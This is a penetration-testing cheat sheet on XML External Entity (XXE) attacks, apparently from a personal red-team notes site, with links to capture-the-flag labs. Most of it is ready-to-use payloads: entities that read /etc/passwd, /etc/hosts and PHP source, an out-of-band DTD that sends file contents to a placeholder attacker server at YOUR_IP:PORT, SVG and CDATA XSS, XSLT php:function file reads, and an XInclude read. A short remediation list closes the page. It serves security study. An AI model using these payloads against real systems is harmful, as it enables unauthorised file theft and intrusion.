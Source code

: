 # XML External Entity (XXE)

<hr class="sep-both">

## XXE XML Payloads

<div class="row row-cols-lg-2"><div>
</div><div>

#### XSS attack

If the XML is displayed, you can try an XSS attack using CDATA.

```xml!
<?xml version="1.0"?>
<root><![CDATA[<script>console.log('test')</script>]]></root>
```

#### Out of Band XSS

[![wordpresscve202129447](../../../../_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

If we cannot see any output, we may first try to see if we can see error messages <small>(missing/invalid tag, reference, etc.)</small> or connect to our server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://YOUR_IP:PORT/xxe.dtd"> %dtd;]>
<root>&xxe;</root>
```

And expose the following XML at `http://OUR_IP:PORT/xxe.dtd` if you can see error messages:

```xml!
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
%error;
```

Or expose the following XML at `http://OUR_IP:PORT/xxe.dtd`.

```xml!
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % oob "<!ENTITY &#x25; payload SYSTEM 'http://YOUR_IP:PORT/?payload=%file;'>">
%oob;
%payload;
```

📚 We could also try DNS exfiltration (`<payload>.example.com`).
</div></div>

<hr class="sep-both">

## XXE SVG Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

[![wordpresscve202129447](../../../../_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

We can use the `file://` protocol to read simple files. For a SVG, we can use the following code <small>(assuming `attr` is displayed)</small>:

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non-PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

📚 [List of interesting files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md) to steal.
</div><div>

#### XSS attack

If the SVG is displayed, we may be able to perform a XSS attack.

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>

<hr class="sep-both">

## XSLT Transformations

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![xslt_injection](../../../../_badges/poat/xslt_injection.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/)
[![xslt_ssi](../../../../_badges/hacktricks/xslt_ssi.svg)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

<div class="row row-cols-lg-2"><div>

Transformations may be applied on the XML, usually when transforming XML documents into HTML, another XML document, or PDF. If the XSLT parser is vulnerable, we may be able to execute code.

An example of a base template for a PHP XSLT wrapper:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<!-- add some payload here -->
</body>
</html>
```
</div><div>

While common PHP payloads are:

```xml!
<xsl:value-of select="php:function('readfile','index.php')" />
<xsl:copy-of name="xxx" select="php:function('file_get_contents', 'index.php')">
<xsl:value-of select="php:function('opendir','.')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:copy-of name="xxx" select="php:function('assert', '1==1')" />
```

📚 Common XSLT parsers are: LibXSLT, Xalan, and Saxon.
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### Word Documents Metadata

Refer to [CVE-2019-13358](https://nvd.nist.gov/vuln/detail/CVE-2019-13358) for an example.

```ps
$ unzip xxx.docx
$ nano word/document.xml
$ zip yyy.docx word/document.xml
```
</div><div>

#### WAV File iXML Metadata

[![wordpresscve202129447](../../../../_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

Refer to [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447) for an example.

```ps
$ cat xxx.wav
RIFFXXXXWAVEBBBBiXML<XML HERE>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `PUBLIC` instead of `SYSTEM`?

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Tools

* [XXEinjector](https://github.com/enjoiz/XXEinjector) <small>(1.6k ⭐, 2020 🪦)</small>
* [xxexploiter](https://github.com/luisfontes19/xxexploiter) <small>(0.6k ⭐, 2022 🪦)</small>
</div><div>

Remediations

* Disallow external DTDs
* Disallow external entities
* Disallow XML parameters entities
* Disable XInclude
* Disable Self Reference/Entity Loops
</div></div>